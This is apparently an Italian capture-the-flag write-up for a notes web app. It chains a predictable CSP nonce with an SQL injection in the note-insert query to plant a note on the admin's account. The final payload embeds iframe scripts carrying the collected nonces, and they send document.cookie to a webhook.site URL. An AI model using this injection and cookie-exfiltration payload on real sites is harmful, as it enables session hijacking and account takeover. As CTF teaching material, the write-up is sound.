 # XSS con Nonce Bypass ed SQL Injection

Il servizio si presenta come un sito web dove è possibile salvare delle note senza fare il login. Perché questo sia possibile, salva la sessione nel cookie sotto forma di JWT. Per evitare XSS utilizza il nonce, una stringa che viene inserita dal server come attributo ai tag `<script>`, che non vengono eseguiti se non la possiedono. (Se provassimo ad inserire degli script, verrebbero sì renderizzati, ma non eseguiti perché non conosciamo il nonce).

## Generazione Nonce Vulnerabile

Il nonce viene generato così:

```javascript
// generate the csp nonce
app.use(function (req, res, next) {
    const random = parseInt(Math.random() * 100000000000000000000000);
    res.locals.csp_nonce = crypto.createHash('md5').update(`${random}`).digest('base64');
    res.set('Content-Security-Policy', `script-src 'nonce-${res.locals.csp_nonce}';`);
    next();
});
```

Questo modo di generare il nonce è vulnerabile, perché sta generando semplicemente un numero da 0 a 9. Possiamo quindi ricaricare diverse volte la pagina per raccogliere tutti i nonce possibili.

---

## SQL Injection

La flag è presente nel cookie dell'admin. Per ottenerla dobbiamo fare in modo che quest'ultimo visiti (tramite la funzione di report abusi) una nostra nota, o meglio, una nota con il contenuto inserito da noi.

Quando inseriamo una nota viene utilizzata questa query:

```javascript
app.post('/api/note', async (req, res) => {
    const content = req.body.content;
    // console.log(content)
    const last_note_id = (await db_get(`SELECT MAX(noteid) AS last FROM notes WHERE userid = ${req.loggedUserId}`))['last'] ?? -1;
    const noteid = last_note_id + 1;
    const x = await db_get(`INSERT INTO notes (noteid, userid, content) VALUES (${noteid}, ${req.loggedUserId}, '${content}')`); // sql injection
    res.json({ noteid });
});
```

La query non usa prepared statements ed è perciò vulnerabile a una SQL injection. Possiamo sfruttarla per inserire del contenuto in una nota non nostra, come ad esempio quelle dell'admin (che ha `id = 0`) con una query come questa:

```sql
nulla'), (12345, 0, 'ciao Admin!
```

---

## Combinazione delle Vulnerabilità

A questo punto dobbiamo combinare queste due vulnerabilità per fare eseguire dal browser dell'admin del codice scritto da noi. Utilizziamo quindi i nonce raccolti in precedenza per formare un payload di questo tipo (ricordiamo che se inseriamo due volte una nota con lo stesso ID darà errore):

```html
'), (123456, 0, '<script nonce="qH/2eaLz5x2RgaZ7dUISLA">fetch(`http://webhook.site/fec91053-7479-4ceb-83c1-ff8bebdf6eae?`+document.cookie)</script><script nonce="7MvIfktc4v4oMI/Z8qe68w">fetch(`http://webhook.site/fec91053-7479-4ceb-83c1-ff8bebdf6eae?`+document.cookie)</script>...
```

Notiamo però che questi script non vengono eseguiti. Dobbiamo quindi racchiuderli in `<iframe>` perché il browser provi ad eseguirli almeno una volta:

```html
<iframe srcdoc="<script nonce=qH/2eaLz5x2RgaZ7dUISLA==>fetch(`http://webhook.site/fec91053-7479-4ceb-83c1-ff8bebdf6eae?`+document.cookie)</script>"></iframe>
<iframe srcdoc="<script nonce=7MvIfktc4v4oMI/Z8qe68w==>fetch(`http://webhook.site/fec91053-7479-4ceb-83c1-ff8bebdf6eae?`+document.cookie)</script>"></iframe>
<iframe srcdoc="<script nonce=jxTkX87qFnpaNt7dS+olQw==>fetch(`http://webhook.site/fec91053-7479-4ceb-83c1-ff8bebdf6eae?`+document.cookie)</script>"></iframe>
<iframe srcdoc="<script nonce=5No7f7vOI0XXdysGdKMY1Q==>fetch(`http://webhook.site/fec91053-7479-4ceb-83c1-ff8bebdf6eae?`+document.cookie)</script>"></iframe>
<iframe srcdoc="<script nonce=RcSMzi4tf73qGvxRx8atJg==>fetch(`http://webhook.site/fec91053-7479-4ceb-83c1-ff8bebdf6eae?`+document.cookie)</script>"></iframe>
<iframe srcdoc="<script nonce=yB5yjZ1ML2NvBn+JzBSGLA==>fetch(`http://webhook.site/fec91053-7479-4ceb-83c1-ff8bebdf6eae?`+document.cookie)</script>"></iframe>
<iframe srcdoc="<script nonce=xMpCOKC5I4INzFCab3WEmw==>fetch(`http://webhook.site/fec91053-7479-4ceb-83c1-ff8bebdf6eae?`+document.cookie)</script>"></iframe>
<iframe srcdoc="<script nonce=yfD4lfuYq5FZ9R/QKX4jbQ==>fetch(`http://webhook.site/fec91053-7479-4ceb-83c1-ff8bebdf6eae?`+document.cookie)</script>"></iframe>
<iframe srcdoc="<script nonce=FnkJHFqID69vteYIfrGy3A==>fetch(`http://webhook.site/fec91053-7479-4ceb-83c1-ff8bebdf6eae?`+document.cookie)</script>"></iframe>
```

---

## Payload Finale

```html
'), (1234567, 0, <iframe srcdoc="<script nonce=qH/2eaLz5x2RgaZ7dUISLA==>fetch(`http://webhook.site/fec91053-7479-4ceb-83c1-ff8bebdf6eae?`+document.cookie)</script>"></iframe><iframe srcdoc="<script nonce=7MvIfktc4v4oMI/Z8qe68w==>fetch(`http://webhook.site/fec91053-7479-4ceb-83c1-ff8bebdf6eae?`+document.cookie)</script>"></iframe><iframe srcdoc="<script nonce=jxTkX87qFnpaNt7dS+olQw==>fetch(`http://webhook.site/fec91053-7479-4ceb-83c1-ff8bebdf6eae?`+document.cookie)</script>"></iframe><iframe srcdoc="<script nonce=5No7f7vOI0XXdysGdKMY1Q==>fetch(`http://webhook.site/fec91053-7479-4ceb-83c1-ff8bebdf6eae?`+document.cookie)</script>"></iframe><iframe srcdoc="<script nonce=RcSMzi4tf73qGvxRx8atJg==>fetch(`http://webhook.site/fec91053-7479-4ceb-83c1-ff8bebdf6eae?`+document.cookie)</script>"></iframe><iframe srcdoc="<script nonce=yB5yjZ1ML2NvBn+JzBSGLA==>fetch(`http://webhook.site/fec91053-7479-4ceb-83c1-ff8bebdf6eae?`+document.cookie)</script>"></iframe><iframe srcdoc="<script nonce=xMpCOKC5I4INzFCab3WEmw==>fetch(`http://webhook.site/fec91053-7479-4ceb-83c1-ff8bebdf6eae?`+document.cookie)</script>"></iframe><iframe srcdoc="<script nonce=yfD4lfuYq5FZ9R/QKX4jbQ==>fetch(`http://webhook.site/fec91053-7479-4ceb-83c1-ff8bebdf6eae?`+document.cookie)</script>"></iframe>
```